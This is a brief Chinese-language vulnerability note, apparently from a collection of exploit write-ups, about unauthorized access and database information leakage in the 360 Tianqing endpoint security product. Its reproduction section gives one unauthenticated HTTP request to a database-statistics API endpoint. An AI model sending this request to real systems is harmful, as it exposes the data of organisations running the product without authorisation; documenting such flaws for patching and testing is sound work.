 # 

# 360天擎 越权访问/数据库信息泄露

## 漏洞描述

360天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

```
天擎
```

## 漏洞复现

```plain
GET /api/dbstat/gettablessize HTTP/1.1
```

![image-20220209200552429](./images/202202092005904.png)


